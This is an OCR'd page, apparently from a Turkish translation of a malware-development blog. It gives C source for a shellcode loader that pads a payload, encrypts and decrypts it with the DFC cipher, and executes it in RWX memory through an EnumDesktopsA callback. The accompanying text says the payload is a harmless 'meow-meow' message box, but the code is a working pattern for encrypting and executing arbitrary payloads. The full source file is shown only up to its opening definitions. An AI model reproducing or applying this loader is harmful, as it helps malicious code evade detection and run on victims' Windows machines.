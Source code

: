 ```cpp
  int pad_len = my_payload_len + 
  (BLOCK_SIZE - my_payload_len % BLOCK_SIZE) % BLOCK_SIZE;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);  // pad with NOPs
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  uint8_t key[8] = { 0x12, 0x34, 0x56, 0x78, 0x9A, 0xBC, 0xDE, 0xF0 };

  dfc_encrypt_shellcode(padded, pad_len, key);

  printf("encrypted shellcode:\n");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  dfc_decrypt_shellcode(padded, pad_len, key);

  printf("decrypted shellcode:\n");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  // allocate and execute decrypted shellcode
  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);

  return 0;
}
```

Gördüğünüz gibi, main fonksiyonunda sadece `meow-meow` messagebox payload şifreleyip çözdüm.    

Tam kaynak kod `hack.c`:     

```cpp
/*
 * hack.c
 * encrypt/decrypt payload via DFC (Decorrelated Fast Cipher) algorithm
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2024/11/10/malware-cryptography-34.html
 */

#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

#define ROUNDS 8       // DFC uses 8 rounds of encryption
#define BLOCK_SIZE 16  // DFC operates on 128-bit (16-byte) blocks

// subkeys generated from the main key
uint8_t K[ROUNDS][16];

```